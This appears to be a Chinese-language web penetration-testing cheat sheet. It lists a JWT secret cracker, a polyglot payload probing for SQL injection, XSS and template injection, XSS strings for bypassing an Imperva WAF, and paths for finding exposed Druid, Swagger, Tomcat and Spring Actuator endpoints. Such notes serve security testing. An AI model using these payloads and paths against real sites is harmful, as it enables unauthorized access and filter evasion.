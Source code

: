 1.  jwt解析和生成网站:

        http://jwt.io

2.  jwt secret破解:

        https://github.com/brendan-rius/c-jwt-cracker

# 关闭火狐浏览器网络检测

在搜索地址栏输入about:config 搜索
network.captive-portal-service.enabled，并将值设为false

# 一句话payload

一句话payload同时检查SQL注入、xss等漏洞:

    '"><svg onload=prompt(5);>{{7*7}} 

# imperva绕过

imperva WAF绕过payload

    <a href=javas&Tab;cript:confirm(1) >  //--tab按键和空格等特殊字符
    <details open ontoggle=alert(1)>      //待确认，目前未能绕过
    <details open ontoggle=top['al'+'ert']('1')> //待确认，目前未能绕过

# 目录暴破

**dirb和dirbuster字典中如果存在以`#`号开头的需要做特殊处理**，以`#`开头会被判断为注释，eg：http://examples.com/#/list

1. druid未授权访问
   
        /druid/weburi.html
        /druid/index.html
        

2. swagger-ui
      
        /swagger-ui.html\#

3. Tomcat示例文件

        /docs
        /examples

4. Actuator端点未授权访问

    /dump 显示线程转储（包括堆栈跟踪） 
    /trace 显示最后几条HTTP消息（可能包含会话标识符） 
    /logfile 输出日志文件的内容 
    /shutdown 关闭应用程序 
    /mappings 显示所有MVC控制器映射 
    /env 提供对配置环境的访问 
    /restart 重新启动应用程序
